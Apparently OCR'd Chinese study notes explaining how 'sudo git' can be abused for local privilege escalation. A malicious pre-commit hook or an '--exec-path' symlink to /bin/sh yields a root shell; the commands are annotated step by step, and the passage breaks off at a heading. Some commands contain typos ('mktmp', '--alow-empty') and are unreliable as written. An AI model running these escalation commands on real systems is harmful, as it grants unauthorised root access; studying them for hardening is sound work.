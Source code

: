 #### 核心思路

- Git Hooks时Git仓库中的脚本，位于 .git/hooks目录下

- 当特定事件发生时（如提交，推送等），Git会自动执行对应的钩子脚本
- 如果攻击者能够修改或创建钩子脚本（如pre-commit），并在其中启动一个shell，那么当用户执行相关Git操作时，恶意代码就会以当前用户的权限执行，sudo执行，root权限

#### 命令分析

TF=$(mktmp -d)

- 创建一个临时目录，并将其路径存储在变量TF中

git init "$TF"

- 在临时目录中初始化一个新的Git仓库

echo 'exec /bin/sh 0<&2 1>&2' > "$TF/.git/hooks/pre-commit.sample"

- 在.git/hooks/目录下创建一个pre-commit.sample文件，内容为exec / bin/sh 0<&2 1>&2
  - exec /bin/sh：启动一个shell
  - 0<&2 1>&2：将标准输入和标准输出重定向到标准错误，确保shell能够与终端交互

mv "$TF/.git/hooks/pre-commit.sample" "$TF/.git/hooks/pre-commit"

- 将pre-commit.sample重命名为pre-commit，使其成为有效的Git Hook脚本

sudo git -C "$TF" commit --alow-empty -m x

- 通过sudo执行git commit命令
  - -C $TF：指定Git仓库的路径为临时目录
  - --alow-empty：允许空提交（即不更改任何文件）
  - -m x：提交信息为x
- 当git commit执行时，pre-commit钩子脚本会被触发，启动一个root权限的shell

#### 攻击过程

- 攻击者创建一个临时目录并初始化一个Git仓库
- 攻击者在.git/hooks目录下创建一个恶意pre-commit钩子脚本，内容为启动一个shell
- 攻击者通过sudo执行git commit，触发pre-commit钩子脚本
- 由于git commit是以root权限运行的，启动的shell也会继承root权限

#### 依赖条件

- 攻击者必须能够创建或修改Git仓库中的钩子脚本
- 目标系统未对Git Hooks的行为进行限制（例如未禁用钩子脚本的执行）



### 5

```
TF=$(mktemp -d)
ln -s /bin/sh "$TF/git-x"
sudo git "--exec-path=$TF"x
```

#### 描述
